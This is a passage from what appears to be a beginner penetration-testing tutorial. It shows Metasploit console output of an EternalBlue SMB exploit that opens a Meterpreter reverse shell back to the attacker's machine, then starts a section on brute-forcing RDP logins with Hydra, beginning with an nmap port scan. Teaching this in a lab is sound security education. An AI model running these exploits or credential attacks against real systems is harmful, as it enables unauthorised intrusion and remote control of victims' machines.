 ```
[*] 192.168.1.100:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 192.168.1.100:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.1.100:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.1.100:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.100:445 - Starting non-paged pool grooming
[+] 192.168.1.100:445 - Sending SMBv2 buffers
[+] 192.168.1.100:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.1.100:445 - Sending final SMBv2 buffers.
[*] 192.168.1.100:445 - Sending last fragment of exploit packet!
[*] 192.168.1.100:445 - Receiving response from exploit packet
[+] 192.168.1.100:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.1.100:445 - Sending egg to corrupted connection.
[*] 192.168.1.100:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.100:49158) at 2024-01-15 10:32:41 -0500

meterpreter > 
```

**What happens behind the scenes:**
1. Metasploit sends specially crafted SMB packets
2. The buffer overflow occurs, allowing code execution
3. A reverse shell payload is executed
4. The target connects back to your machine

Great! We've just seen how a complex exploit like EternalBlue works. But sometimes the simplest approach is the most effective. Let's look at exploiting systems that use weak or default passwords - you'd be amazed how often this works! 🤦‍♂️

### 2. Exploiting Windows with Default/Weak Credentials 🔑

Many Windows systems, especially in lab environments, use default or weak credentials.

> **🤓 What are Credentials?** Credentials are like your digital ID card - they're the username and password combination that proves you're allowed to access a system. "Default credentials" are like leaving the default password on your WiFi router - they're the passwords that come pre-set and many people never change them!

**What is Brute Force?** 🔨
Brute force is like trying every possible key on a keyring until one works! In cybersecurity, it means automatically trying thousands of username/password combinations until you find the right one. It's not elegant, but it works surprisingly often because people use weak passwords!

**What is Hydra?** 🐉
Hydra is like a super-fast lock picker that can try thousands of password combinations per minute. It's named after the mythical creature with multiple heads - it can attack multiple services and try multiple passwords simultaneously!

**RDP (Remote Desktop Protocol) Brute Force:**

```bash
# First, check if RDP is open (port 3389)
nmap -p 3389 192.168.1.100
```
